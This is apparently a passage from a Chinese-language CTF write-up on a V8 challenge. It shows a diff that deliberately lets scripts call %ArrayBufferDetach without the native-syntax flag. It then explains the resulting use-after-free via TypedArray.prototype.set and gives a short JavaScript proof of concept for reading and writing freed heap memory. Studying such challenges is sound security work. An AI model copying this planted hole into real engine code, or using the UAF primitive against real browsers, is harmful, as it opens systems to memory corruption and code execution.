 ```diff
--- a/src/parsing/parser-base.h
+++ b/src/parsing/parser-base.h
@@ -1907,10 +1907,8 @@ ParserBase::ParsePrimaryExpression() {
       return ParseTemplateLiteral(impl()->NullExpression(), beg_pos, false);

     case Token::MOD:
-      if (flags().allow_natives_syntax() || extension_ != nullptr) {
-        return ParseV8Intrinsic();
-      }
-      break;
+      // Directly call %ArrayBufferDetach without `--allow-native-syntax` flag
+      return ParseV8Intrinsic();

     default:
       break;
diff --git a/src/parsing/parser.cc b/src/parsing/parser.cc
index 9577b37397..2206d250d7 100644
--- a/src/parsing/parser.cc
+++ b/src/parsing/parser.cc
@@ -357,6 +357,11 @@ Expression* Parser::NewV8Intrinsic(const AstRawString* name,
   const Runtime::Function* function =
       Runtime::FunctionForName(name->raw_data(), name->length());

+  // Only %ArrayBufferDetach allowed
+  if (function->function_id != Runtime::kArrayBufferDetach) {
+    return factory()->NewUndefinedLiteral(kNoSourcePosition);
+  }
+
   // Be more permissive when fuzzing. Intrinsics are not supported.
   if (FLAG_fuzzing) {
     return NewV8RuntimeFunctionForFuzzing(function, args, pos);
```

### 漏洞分析

经过了上面的分析，漏洞原理就很简单了。即我们可以直接使用`%ArrayBufferDetach`函数来释放`TypedArray`的数据内存，在释放后仍然可以调用`TypedArray.prototype.set`函数来操作该内存，从而形成了`UAF`漏洞。

漏洞利用
----

`poc`的构造比较简单：

```js
let a = new Uint8Array(0x200);
let b = new Uint8Array(0x200);
%ArrayBufferDetach(a.buffer); // into tcache
a.set(b) // overwrite a's fd, write to freed mem
b.set(a) // read from freed mem
```

`d8`使用的是`glibc`来进行内存分配，所以这题可以简化成堆的菜单题。
